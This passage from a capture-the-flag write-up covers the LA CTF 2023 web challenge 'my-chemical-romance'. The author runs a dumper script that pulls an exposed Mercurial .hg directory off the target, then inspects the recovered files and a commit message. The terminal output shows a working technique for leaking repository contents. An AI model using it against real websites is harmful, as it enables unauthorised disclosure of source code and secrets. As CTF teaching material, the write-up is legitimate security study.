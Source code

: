 ```py
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:50:28(HKT)]
└> python3 dumper.py
[+] Found valid file: .hg/00changelog.i
[+] Found valid file: .hg/cache/branch2-served
[+] Found valid file: .hg/dirstate
[+] Found valid file: .hg/last-message.txt
[+] Found valid file: .hg/requires
[+] Found valid file: .hg/store/00changelog.i
[+] Found valid file: .hg/store/00manifest.i
[+] Found valid file: .hg/store/fncache
[+] Found valid file: .hg/store/phaseroots
[+] Found valid file: .hg/store/undo
[+] Found valid file: .hg/store/undo.phaseroots
[+] Found valid file: .hg/store/requires
[+] Found valid file: .hg/undo.bookmarks
[+] Found valid file: .hg/undo.branch
[+] Found valid file: .hg/undo.desc
[+] Found valid file: .hg/undo.dirstate
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:50:54(HKT)]
└> ls -lah .hg/
total 48K
drwxr-xr-x 5 siunam nam 4.0K Feb 12 17:46 .
drwxr-xr-x 3 siunam nam 4.0K Feb 12 17:45 ..
-rw-r--r-- 1 siunam nam   59 Feb 12 17:50 00changelog.i
drwxr-xr-x 2 siunam nam 4.0K Feb 12 17:45 cache
-rw-r--r-- 1 siunam nam  302 Feb 12 17:50 dirstate
-rw-r--r-- 1 siunam nam   44 Feb 12 17:50 last-message.txt
-rw-r--r-- 1 siunam nam   11 Feb 12 17:50 requires
drwxr-xr-x 2 siunam nam 4.0K Feb 12 17:47 store
-rw-r--r-- 1 siunam nam    0 Feb 12 17:50 undo.bookmarks
-rw-r--r-- 1 siunam nam    7 Feb 12 17:50 undo.branch
-rw-r--r-- 1 siunam nam    9 Feb 12 17:50 undo.desc
-rw-r--r-- 1 siunam nam  305 Feb 12 17:50 undo.dirstate
drwxr-xr-x 2 siunam nam 4.0K Feb 12 17:45 wcache
```

Nice!

**In `.hg/last-message.txt`, we see this:**
```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:50:58(HKT)]
└> cat .hg/last-message.txt 
Decided to keep my favorite song a secret :D 
```

**Hmm... Let's view all the commit logs:**
```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:51:17(HKT)]
└> hg log        
abort: index 00changelog is corrupted
```
